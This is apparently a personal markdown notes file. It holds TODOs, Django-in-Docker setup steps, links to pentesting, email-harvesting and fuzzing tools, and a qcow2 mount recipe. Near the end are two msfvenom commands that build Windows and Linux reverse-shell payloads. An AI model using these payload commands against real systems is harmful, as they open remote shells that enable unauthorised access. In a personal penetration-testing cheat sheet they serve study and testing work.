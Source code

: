 # MOTHERS OF ALL
https://github.com/Hack-with-Github/Awesome-Hacking

TODO - track cura bug issue
TODO - execute script on shutdown 
       so far:
       service in /usr/lib/systemd/system-shutdown/clean_gnome_home.shutdown
       script in /bin/clean_home
TODO - for Python relevant stuff make a Notebook rather than a .md file (Python.md)
TODO - Kioku: Rename 'Shell' skill to Bash and create a new Shell skill with cmnd line utilities
TODO - Lucy: save current pixel configuration -> will need dedicated function to restore

## Django Docker
1. define relative WSGIPythonPath to django project -> see django-apache2-docker/demo_site.conf
2. Add wsgi.py file in demo_site/demo_site/ & link to demo_site.settings
3. Add WSGI_APPLICATION = 'demo_site.wsgi.application' in demo_site/demo_site/settings.py
4. Rebuild Dockerfile
5. Enjoy?


## BSS section
containing statically-allocated variables

## Evaluate WordPress
https://github.com/sammanthp007/WordPress-Pentesting-Setup
$ wpscan

## CRAWL
git clone https://github.com/killswitch-GUI/SimplyEmail.git
$ theharvester

## FUZZER
https://github.com/mirrorer/afl.git
https://github.com/jtpereyda/boofuzz.git # pip install boofuzz

## TRIDACTYL direct Download
https://tridactyl.cmcaine.co.uk/betas/tridactyl-latest.xpi

## Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=8080 EXITFUNC=thread \
-f raw -b "\x00\x09\x0d\x0a\x20\xff" -n 32 > warhead.txt
## Linux reverse shell
msfvenom -p linux/x64/shell_reverse_tcp \ # Specify the payload
            LHOST=127.0.0.1             \ # Target host to connect
            LPORT=4444                  \ # Target port
         -b '\x00'                      \ # Bad characters
         -f python                        # Format of the payload

### Mount qcow2 files
modprobe nbd
qemu-nbd --connect=/dev/nbd0 /path/to/qcow2file
mount /dev/nbd0p1 mnt

